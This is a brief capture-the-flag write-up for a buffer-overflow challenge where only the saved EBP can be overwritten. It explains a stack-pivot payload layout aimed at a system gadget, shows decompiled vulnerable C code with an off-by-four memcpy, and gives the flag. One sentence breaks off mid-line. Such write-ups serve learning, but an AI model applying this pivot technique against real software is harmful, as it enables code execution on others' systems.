 ### Summary
Basically, it's a challenge about buffer overflow, but you can only overwrite the EBP.
We can make EBP point to our input, which enables us to set the return address of the caller of the vulnerable function.

1st leave: pops our fake 

### Payload
```
aaaaa  // will get popped by 2nd leave
<system_gadget>
<pointer to aaaa>  // Overflow on EBP
```

1st leave: pops pointer to EBP register
2nd leave: pops aaaa to ebp, return address will be `<system_gadget>`



### Vulnerable code

```C
_BOOL4 __cdecl auth(int a1)
{
  char v2; // [esp+14h] [ebp-14h]
  char *s2; // [esp+1Ch] [ebp-Ch]
  int v4; // [esp+20h] [ebp-8h]

  memcpy(&v4, &input, a1); //a1 can be at most 12, overflow of 4
  s2 = (char *)calc_md5((int)&v2, 12);
  printf("hash : %s\n", s2);
  return strcmp("f87cd601aa7fedca99018a8be88eda34", s2) == 0;
}
```

### Flag
`control EBP, control ESP, control EIP, control the world~`
